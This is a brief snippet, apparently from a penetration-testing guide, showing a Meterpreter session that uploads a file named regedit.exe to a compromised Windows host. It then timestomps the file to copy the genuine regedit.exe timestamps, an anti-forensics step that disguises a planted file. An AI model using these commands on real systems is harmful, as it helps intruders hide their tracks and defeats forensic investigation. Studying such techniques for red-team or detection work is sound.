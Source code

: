 **Timestomping Files**  
  
```
meterpreter> upload regedit.exe  
[*] uploading : regedit.exe -> regedit.exe  
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): regedit.exe -> regedit.exe  
[*] uploaded : regedit.exe -> regedit.exe  
meterpreter> timestomp regedit.exe -f /windows/regedit.exe  
[*] Pulling MACE attributes from /windows/regedit.exe
```




